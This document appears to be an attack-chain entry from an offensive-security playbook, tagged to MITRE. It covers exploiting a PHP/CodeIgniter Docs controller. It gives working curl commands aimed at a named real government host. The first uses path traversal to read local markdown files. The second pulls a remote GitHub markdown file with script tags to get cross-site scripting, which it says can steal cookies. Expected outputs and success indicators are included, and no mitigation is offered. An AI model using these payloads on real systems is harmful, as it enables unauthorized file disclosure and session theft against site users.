

---
tags:
  - lfi
  - rfi
  - xss
  - php
  - codeigniter
  - markdown
  - github
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-LFI-to-Read-Local-Markdown-Files]]'
  - '[[procedures/Exploit-RFI-via-GitHub-Fallback-for-XSS]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:26:22.791Z'
description: >-
  Multi-stage attack exploiting improper sanitization in a PHP/CodeIgniter Docs
  controller to achieve local file inclusion, remote file inclusion from GitHub,
  and cross-site scripting via unsafe markdown rendering.
skill_level: intermediate
impact_level: medium
id: 1bff7e62-b5b8-4738-bb72-210950b8b643
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# LFI to RFI and XSS via Unsanitized Page Parameter in Docs Controller

Multi-stage attack chain demonstrating exploitation of a Local File Inclusion (LFI) vulnerability in the Docs controller of a PHP/CodeIgniter application, escalating to Remote File Inclusion (RFI) via a GitHub fallback and Cross-Site Scripting (XSS) through unsafe markdown preprocessing. The attack allows reading sensitive local .md files and executing JavaScript from remote sources, potentially exposing configuration data or stealing user sessions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web application built on PHP and CodeIgniter
- Exposed Docs endpoint (e.g., /Docs/index/)
- Markdown rendering enabled without safe HTML sanitization

### Initial Access Requirements

- Network access to the target web application
- No authentication required for the Docs index endpoint
- Ability to craft and send HTTP requests

## Detailed Attack Procedures

### Step 1: Exploit LFI to Read Local Files
procedure: [[procedures/Exploit-LFI-to-Read-Local-Markdown-Files]]

**Objective**: Traverse directories to read arbitrary local .md files outside the intended documentation path, such as README.md, to expose sensitive information like source code or configurations.

**Instructions**: Use [[commands/curl-lfi-test]] to send a request with a path traversal payload in the $page parameter:

```bash
curl -s "https://labs.data.gov/dashboard/Docs/index/..%2fREADME" | grep -i "content"
```

This constructs $docs_path as base_path + '..%2fREADME' + '.md', allowing file_get_contents to access /var/www/dashboard/new/README.md.

**Expected Output**: The contents of the local README.md file rendered as markdown in the response.

**Success Indicators**:
- Response contains file contents not from the standard docs directory
- No 404 or access denied errors

### Step 2: Exploit RFI and Trigger XSS
procedure: [[procedures/Exploit-RFI-via-GitHub-Fallback-for-XSS]]

**Objective**: Leverage the GitHub URL fallback in docs_path to include and render a remote .md file containing malicious JavaScript, executing XSS in the application's context to steal cookies or perform actions.

**Instructions**: Use [[commands/curl-rfi-xss-test]] with deeper traversal to redirect to a controlled GitHub raw .md file:

```bash
curl -s "https://labs.data.gov/dashboard/index.php/docs/index/..%2f..%2f..%2f..%2fadborden%2fpoc%2Fmaster%2fpoc4" | grep -i "<script>"
```

This resolves to https://raw.githubusercontent.com/adborden/poc/master/poc4.md, which includes <script> tags rendered unsafely by the markdown preprocessor.

**Expected Output**: Response includes executed JavaScript, such as alert() or data exfiltration attempts visible in browser dev tools.

**Success Indicators**:
- Remote file content loaded and rendered
- JavaScript executes (e.g., console logs or popups in a browser context)

## Attack Chain Summary

### Key Achievements

1. Successful directory traversal to read local sensitive .md files
2. Inclusion of arbitrary remote .md files from GitHub, bypassing local restrictions
3. Execution of XSS payloads via unsafe markdown rendering, enabling client-side attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
